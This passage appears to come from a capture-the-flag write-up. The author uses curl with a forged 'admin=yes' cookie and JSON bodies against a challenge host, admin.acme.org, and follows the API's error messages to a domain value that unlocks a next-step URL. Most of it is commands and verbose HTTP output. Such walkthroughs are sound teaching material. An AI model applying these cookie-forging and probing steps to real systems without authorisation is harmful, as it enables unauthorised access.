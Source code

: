 Breakthrough! Using Content-Type "application/json" turns the app into a teapot :) (https://httpstatuses.com/418). Now that we know that the application is expecting some JSON, let's see if we can get it to feed us a flag. Could it be so easy?

Tool #4: curl

Attempt #1:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"flag\":\"true\"}" http://admin.acme.org/ -v
	*   Trying 104.236.20.43...
	* TCP_NODELAY set
	* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
	> POST / HTTP/1.1
	> Host: admin.acme.org
	> User-Agent: curl/7.54.0
	> Accept: */*
	> Cookie: admin=yes
	> Content-Type: application/json
	> Content-Length: 15
	> 
	* upload completely sent off: 15 out of 15 bytes
	< HTTP/1.1 418 I'm a teapot
	< Date: Sat, 18 Nov 2017 05:22:59 GMT
	< Server: Apache/2.4.18 (Ubuntu)
	< Content-Length: 31
	< Content-Type: application/json
	< 
	* Connection #0 to host admin.acme.org left intact
	{"error":{"domain":"required"}}
```

At this point, I'm reminded that developers who write APIs tend to be helpful and give us clues as to how to interact with them.

Attempt #2:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"admin.acme.org\"}" http://admin.acme.org/ -v
	...
	{"error":{"domain":"incorrect value, .com domain expected"}}
```

Attempt #3:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"admin.acme.com\"}" http://admin.acme.org/ -v
	...
	{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```

Attempt #4:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.acme.com\"}" http://admin.acme.org/ -v
	...
	{"next":"\/read.php?id=0"}
```

